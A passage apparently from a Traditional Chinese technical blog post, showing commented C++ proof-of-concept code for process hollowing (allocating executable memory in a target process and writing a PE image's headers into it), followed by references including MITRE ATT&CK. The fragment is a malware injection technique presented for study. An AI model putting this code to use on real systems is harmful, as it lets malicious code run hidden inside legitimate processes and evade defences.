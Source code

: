 ```cpp=
        printf("Error unmapping section\r\n");
        return;
    }


    // 4. 在目標 Process 申請一塊記憶體
    // Process 是目標 Process 的 Handle
    // lpAddress 是原本被 Unmap 的 Image 的 Base Address
    // dwSize 是我們要注入的檔案大小
    // flAllocationType　是　MEM_COMMIT | MEM_RESERVE
    // flProtect 可以針對不同的記憶體區段去做配置，不過 POC 方便起見，直接用 PAGE_EXECUTE_READWRITE
    PVOID pRemoteImage = VirtualAllocEx
    (
        pProcessInfo->hProcess,
        pPEB->ImageBaseAddress,
        pSourceHeaders->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    if (!pRemoteImage)
    {
        printf("VirtualAllocEx call failed\r\n");
        return;
    }


    // 5. 把 Header 寫入目標 Process
    // 在改 Optional Header 中的 ImageBase 成員之前，算出檔案的 Image Base 和目標 Process 的 Image Base 的距離
    DWORD dwDelta = (DWORD)pPEB->ImageBaseAddress - pSourceHeaders->OptionalHeader.ImageBase;
    pSourceHeaders->OptionalHeader.ImageBase = (DWORD)pPEB->ImageBaseAddress;

    // 把我們的檔案 Header 寫入目標 Process
    if (!WriteProcessMemory
    (
        pProcessInfo->hProcess, 				
        pPEB->ImageBaseAddress, 
        pBuffer, 
        pSourceHeaders->OptionalHeader.SizeOfHeaders, 
        0
    ))
    {
        printf("Error writing process memory\r\n");
        return;
    }
```

## 參考資料
* [m0n0ph1/Process-Hollowing](https://github.com/m0n0ph1/Process-Hollowing)
* [Windows Dll Injection、Process Injection、API Hook、DLL后门/恶意程序入侵技术](https://www.bbsmax.com/A/pRdBOwW6zn/)
* [十种注入技巧 | 通用性进程注入技巧研究看雪学院](https://zhuanlan.zhihu.com/p/28671064)
* [Mitre Att&ck: Process Hollowing](https://attack.mitre.org/techniques/T1055/012/)
* [PE 結構](https://www.cnblogs.com/Chary/p/12981261.html)
* [馬聖豪大大的 Blog](https://blog.30cm.tw/2015/05/windowspeasmdll-headerapiloadlibrarya.html)
